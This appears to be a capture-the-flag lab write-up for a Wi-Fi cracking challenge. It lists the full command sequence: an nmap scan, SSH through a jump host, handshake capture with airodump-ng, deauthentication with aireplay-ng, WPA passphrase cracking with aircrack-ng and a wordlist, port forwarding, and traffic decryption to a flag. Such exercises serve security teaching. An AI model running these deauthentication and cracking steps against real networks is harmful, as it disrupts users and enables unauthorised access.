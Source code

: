 # d582aa_wifi_cracking_1


According to the last 21077e_cloud_hacking_1 challege, we got ip address and the private key.

```
cd ../21077e_cloud_hacking_1/en2720-2017-2023-en2720-w1-8da680b871c76380dc3522ce3c4cc127c713

```

find the target
```
nohup nmap --top-ports 1000 10.0.7.0/24 > result.txt &
ftp 10.0.7.178
> SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.7
```


connect to the target
```
# use the en2720-w1-cloud-hopper machine as a jump server
ssh -i wifi-ssh-key cereal_killer@10.0.7.178 -p 21 -o ProxyCommand='ssh -i ../id_rsa_root root@10.0.7.127 -p 52961 -W %h:%p'

```

capture the wifi traffic
```
iwconfig
sudo airmon-ng start sta3-wlan0
sudo airodump-ng sta3-wlan0mon # get BSSID and channel
sudo airodump-ng --bssid 50:B0:19:AE:21:EF -c 1 --write new-york sta3-wlan0mon # when there is handshake, press ctrl+c
sudo aireplay-ng --deauth 200 -a 50:B0:19:AE:21:EF sta3-wlan0mon # on another terminal

# crack the password
sudo aircrack-ng -b 50:B0:19:AE:21:EF new-york-01.cap -w /usr/share/wordlists/rockyou.txt
KEY FOUND! [ superman ]
```

transfer data between the wifi server and kali 
```
# scp doesn't work, why?
scp -o ProxyCommand='ssh -i ../id_rsa_root root@10.0.7.127 -p 52961 -W %h:%p' -P 21 -i wifi-ssh-key cereal_killer@10.0.7.128:/home/cereal_killer/new-york-01.cap . 


# kali, local port forwarding
ssh -N -L 1234:10.0.7.178:21 -i ../id_rsa_root root@10.0.7.127 -p 52961
scp -P 1234 -i wifi-ssh-key cereal_killer@localhost:/home/cereal_killer/new-york-01.cap  .
```

decrypt the wifi traffic, https://miloserdov.org/?p=2525
```
key: wpa-pwd value: superman:new-york
# first search `eapol`, then find one tcp packet in the following packet
# follow -> tcp stream, you will see the base64 encoded data
ZmxhZ3tkNTgyYWFlMjk5Y2YwMzAyZDkwNDAwZjRiOTg3Yzc1OTdhMmI5ODZhOTk5MDYxfQ==

flag{d582aae299cf0302d90400f4b987c7597a2b986a999061}
```



